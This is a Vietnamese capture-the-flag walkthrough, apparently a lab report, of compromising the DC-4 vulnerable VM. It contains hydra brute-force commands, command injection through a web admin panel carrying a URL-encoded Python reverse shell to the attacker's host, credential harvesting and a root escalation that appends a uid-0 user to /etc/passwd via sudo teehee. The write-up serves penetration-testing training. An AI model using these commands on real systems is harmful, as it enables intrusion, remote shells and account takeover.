# Extra Labs 4: DC-4 on vulhub

## Description

Thông tin chung: DC-4 được phát hành vào ngày 07/04/2019, là một máy ảo chạy trên hệ điều hành Debian 32-bit (định dạng OVA cho VirtualBox). Mạng được thiết lập cấu hình cấp IP tự động qua DHCP.
## Mục tiêu: Thử thách này hướng tới đối tượng người mới bắt đầu đến trung cấp (beginners/intermediates). Giống như DC-3, máy ảo này chỉ có duy nhất 1 flag và không có gợi ý nào, nhưng điểm thú vị là nó có nhiều điểm xâm nhập (multiple entry points) khác nhau.
## Các bước thực hiện

Sử dụng lệnh netdiscover để tìm địa chỉ IP của máy mục tiêu trong mạng nội bộ:



Sử dụng nmap để quét các cổng đang mở. Kết quả quét sẽ cho thấy máy mục tiêu đang mở 2 cổng: 80 (HTTP)


Từ thông tin trên biết rằng không khai thác được dịch vụ chạy trên máy

Truy cập thử vào trang web của máy dc-4:



Em thử đăng nhập với admin:test nhưng không in ra thông báo nào cả.

Tìm các đường dẫn tồn tại trên trang web

```bash
ffuf -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.130.10.137/FUZZ
```



Khong thể tìm thấy địa chỉ nào để khai thác, em thử lại với extension php

```bash
ffuf -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.130.10.137/FUZZ -e php
```



Sau khi chạy lại lệnh ffuf, có một direction thú vị là command.php, nhưng nó lại trả về lỗi 30

Kiểm tra bruteforce đơn giản với user admin và administrator:



Passwords em sử dụng rockyou.txt

```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt -f 10.130.10.137 http-post-form "/login.php:username=^USER^&password=^PASS^:S=Logout" -V
```



Thành công tìm ra mật khẩu của user admin là happy

Mở trình duyệt của burp suite để chặn bắt request dễ hơn. Tiến hành đăng nhập với tài khoản mật khẩu admin:happy





Đăng nhập thành công.

Truy cập vào System Tools “Command”:



Ở đây em ấn bất kỳ command nào, và quay lại Burp suite để sửa request được gửi đi:



Ví dụ ở đây em chọn lệnh List files thì lập tức sẽ gửi đi request với payload ls+-l, em sẽ sửa thành lệnh đơn giản which+python (which python)



Đã thành công chạy lệnh với đường dẫn tới python được hiển thị trên web

Tiếp đến em sẽ mở kết nối reverse shell đơn giản chạy bằng python, trước tiên chúng ta phải mở port và lắng nghe trên máy tấn công trước bằng lệnh

```bash
nc -lnvp 4444
```



Em sẽ tạo một payload đơn giản bằng python như sau:

```bash
/usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.130.10.132",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Nhưng request gửi đi phải được chuyển sang dạn url encode:

/usr/bin/python+-c+'import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("10.130.10.132",4444))%3bos.dup2(s.fileno(),0)%3b+os.dup2(s.fileno(),1)%3b+os.dup2(s.fileno(),2)%3bp%3dsubprocess.call(["/bin/sh","-i"])%3b'





Quay lại máy tấn công để xem thành quả:



Thử kiểm tra xem hiện tại có thể chạy những quyền sudo nào



Và user hiện tại không thể chạy bất cứ file nào với quyền hạn sudo.

Thay đổi phương án, em thử xem file etc/pssswd



Sau khi liệt kê em thấy 3 user thú vị có thể khai thác đó là charles, jim, sam.

Khai thác sâu hơn với user jim, em thấy một file thú vị old-passwords.bak



Một file list các mật khẩu nhưng không biết là của user nào, em sẽ thử brute force với cả 4 user trên là root, jim, charles và sam.



Và file mật khẩu sẽ lấy từ máy nạn nhân:



Như đã biết từ trước, máy nạn nhân đang mở cổng 22 vì thế em sẽ sử dụng hydra để brute force với các file có sẵn:

```bash
hydra -L users.txt -P pass.txt 10.130.10.137 ssh -t 4
```



Thấy được pass của user jim:jibril04, em thử đăng nhập qua ssh luôn



Đăng nhập thành công, nhưng em cũng không thể sử dụng các file root đối với người dùng jim, em thử đào sâu hơn và tìm thấy một mail mà charles gửi cho jim, trong đó có chứa mật khẩu của user charles:^xHhA&hvim0y



Em sẽ chuyển sang user charles luôn



May mắn khi charles có quyền sử dụng sudo với file /usr/bin/teehee

Điều tra sâu vào teehee, em phát hiện rằng nó giống như một hàm của tee, có chức năng viết dữ liệu ra một file nào đó



Em sẽ lợi dụng lỗ hổng này để cố thêm một user mới vào file passwd và thêm người dùng đó vào nhóm root. Em sử dụng openssl để tạo một mật khẩu đã được hash. (mật khẩu là 1)

$1$jQApoZlv$QT3badd2L9AWd/3/ORhSv1



Tiến hành thêm user mới vào file passwd

```bash
echo ‘hehe:$1$flUfTFzW$i3mFc67s2Iacs1tAe4kIY0:0:0:root:/root:/bin/bash’ | sudo teehee -a /etc/passwd
```



Sau khi đã có quyền root ta dễ dàng đọc được flag trong /root